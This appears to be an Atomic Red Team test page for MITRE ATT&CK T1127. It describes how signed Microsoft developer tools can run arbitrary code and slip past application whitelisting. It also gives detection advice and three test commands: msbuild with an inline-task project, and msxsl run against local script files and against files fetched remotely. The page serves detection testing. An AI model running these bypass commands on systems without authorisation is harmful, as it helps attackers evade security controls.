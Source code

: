 # T1127 - Trusted Developer Utilities
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1127)
<blockquote>There are many utilities used for software development related tasks that can be used to execute code in various forms to assist in development, debugging, and reverse engineering. These utilities may often be signed with legitimate certificates that allow them to execute on a system and proxy execution of malicious code through a trusted process that effectively bypasses application whitelisting defensive solutions.

===MSBuild===

MSBuild.exe (Microsoft Build Engine) is a software build platform used by Visual Studio. It takes XML formatted project files that define requirements for building various platforms and configurations. (Citation: MSDN MSBuild) 

Adversaries can use MSBuild to proxy execution of code through a trusted Windows utility. The inline task capability of MSBuild that was introduced in .NET version 4 allows for C# code to be inserted into the XML project file. (Citation: MSDN MSBuild) Inline Tasks MSBuild will compile and execute the inline task. MSBuild.exe is a signed Microsoft binary, so when it is used this way it can execute arbitrary code and bypass application whitelisting defenses that are configured to allow MSBuild.exe execution. (Citation: SubTee GitHub All The Things Application Whitelisting Bypass)

===DNX===

The .NET Execution Environment (DNX), dnx.exe, is a software development kit packaged with Visual Studio Enterprise. It was retired in favor of .NET Core CLI in 2016. (Citation: Microsoft Migrating from DNX) DNX is not present on standard builds of Windows and may only be present on developer workstations using older versions of .NET Core and ASP.NET Core 1.0. The dnx.exe executable is signed by Microsoft. 

An adversary can use dnx.exe to proxy execution of arbitrary code to bypass application whitelist policies that do not account for DNX. (Citation: engima0x3 DNX Bypass)

===RCSI===

The rcsi.exe utility is a non-interactive command-line interface for C# that is similar to csi.exe. It was provided within an early version of the Roslyn .NET Compiler Platform but has since been deprecated for an integrated solution. (Citation: Microsoft Roslyn CPT RCSI) The rcsi.exe binary is signed by Microsoft. (Citation: engima0x3 RCSI Bypass)

C# .csx script files can be written and executed with rcsi.exe at the command-line. An adversary can use rcsi.exe to proxy execution of arbitrary code to bypass application whitelisting policies that do not account for execution of rcsi.exe. (Citation: engima0x3 RCSI Bypass)

===WinDbg/CDB===

WinDbg is a Microsoft Windows kernel and user-mode debugging utility. The Microsoft Console Debugger (CDB) cdb.exe is also user-mode debugger. Both utilities are included in Windows software development kits and can be used as standalone tools. (Citation: Microsoft Debugging Tools for Windows) They are commonly used in software development and reverse engineering and may not be found on typical Windows systems. Both WinDbg.exe and cdb.exe binaries are signed by Microsoft.

An adversary can use WinDbg.exe and cdb.exe to proxy execution of arbitrary code to bypass application whitelist policies that do not account for execution of those utilities. (Citation: Exploit Monday WinDbg)

It is likely possible to use other debuggers for similar purposes, such as the kernel-mode debugger kd.exe, which is also signed by Microsoft.

===Tracker===

The file tracker utility, tracker.exe, is included with the .NET framework as part of MSBuild. It is used for logging calls to the Windows file system. (Citation: Microsoft Docs File Tracking)

An adversary can use tracker.exe to proxy execution of an arbitrary DLL into another process. Since tracker.exe is also signed it can be used to bypass application whitelisting solutions. (Citation: Twitter SubTee Tracker.exe)

Detection: The presence of these or other utilities that enable proxy execution that are typically used for development, debugging, and reverse engineering on a system that is not used for these purposes may be suspicious.

Use process monitoring to monitor the execution and arguments of MSBuild.exe, dnx.exe, rcsi.exe, WinDbg.exe, cdb.exe, and tracker.exe. Compare recent invocations of those binaries with prior history of known good arguments and executed binaries to determine anomalous and potentially adversarial activity. It is likely that these utilities will be used by software developers or for other software development related tasks, so if it exists and is used outside of that context, then the event may be suspicious. Command arguments used before and after invocation of the utilities may also be useful in determining the origin and purpose of the binary being executed.

Platforms: Windows

Data Sources: Process monitoring

Defense Bypassed: Application whitelisting

Permissions Required: User

System Requirements: MSBuild: .NET Framework version 4 or higher
DNX: .NET 4.5.2, Powershell 4.0
RCSI: .NET 4.5 or later, Visual Studio 2012

Remote Support: No

Contributors: Casey Smith, Matthew Demaske, Adaptforward</blockquote>

## Atomic Tests

- [Atomic Test #1 - MSBuild Bypass Using Inline Tasks](#atomic-test-1---msbuild-bypass-using-inline-tasks)

- [Atomic Test #2 - MSXSL Bypass using local files](#atomic-test-2---msxsl-bypass-using-local-files)

- [Atomic Test #3 - MSXSL Bypass using remote files](#atomic-test-3---msxsl-bypass-using-remote-files)


<br/>

## Atomic Test #1 - MSBuild Bypass Using Inline Tasks
Executes the code in a project file using. C# Example

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| filename | Location of the project file | Path | T1127.csproj|

#### Run it with `command_prompt`!
```
C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe #{filename}
```
<br/>
<br/>

## Atomic Test #2 - MSXSL Bypass using local files
Executes the code specified within a XSL script tag during XSL transformation using a local payload. Requires download of MSXSL from Microsoft at https://www.microsoft.com/en-us/download/details.aspx?id=21714.

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| xmlfile | Location of the test XML file on the local filesystem. | Path | C:\AtomicRedTeam\atomics\T1127\src\msxsl-xmlfile.xml|
| xslfile | Location of the test XSL script file on the local filesystem. | Path | C:\AtomicRedTeam\atomics\T1127\src\msxsl-script.xsl|

#### Run it with `command_prompt`!
```
C:\Windows\Temp\msxsl.exe #{xmlfile} #{xslfile}
```
<br/>
<br/>

## Atomic Test #3 - MSXSL Bypass using remote files
Executes the code specified within a XSL script tag during XSL transformation using a remote payload. Requires download of MSXSL from Microsoft at https://www.microsoft.com/en-us/download/details.aspx?id=21714.

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| xmlfile | Remote location (URL) of the test XML file. | Url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1127/src/msxsl-xmlfile.xml|
| xslfile | Remote location (URL) of the test XSL script file. | Url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1127/src/msxsl-script.xsl|

#### Run it with `command_prompt`!
```
C:\Windows\Temp\msxsl.exe #{xmlfile} #{xslfile}
```
<br/>
